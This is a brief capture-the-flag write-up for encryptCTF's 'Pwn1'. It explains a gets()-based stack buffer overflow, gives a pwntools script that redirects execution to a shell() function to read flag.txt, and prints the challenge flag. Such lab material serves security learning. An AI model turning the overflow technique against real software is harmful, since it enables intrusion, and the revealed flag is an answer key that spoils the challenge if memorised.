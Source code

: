 # Pwn1
### 📄 Description
Can you retrieve the flag?

## 🔑 Solution

We have to overflow the buffer named buffer and overwrite `main()` return address to point to the `shell()` function entry point in order to pop a shell. `gets()` is used for the input. Remembrer that `gets` doesn't check the buffer bounds.

```python
from pwn import *

context.binary = "./pwn1"

p = process()
p.sendline(b"A" * 128 + b"a" * 12 + p32(context.binary.functions["shell"].address))
p.sendline(b"cat flag.txt")
log.success(p.recvline_regex(rb".*{.*}.*").decode("ascii"))
```

### 🚩 Flag
```plain
encryptCTF{Buff3R_0v3rfl0W5_4r3_345Y}
```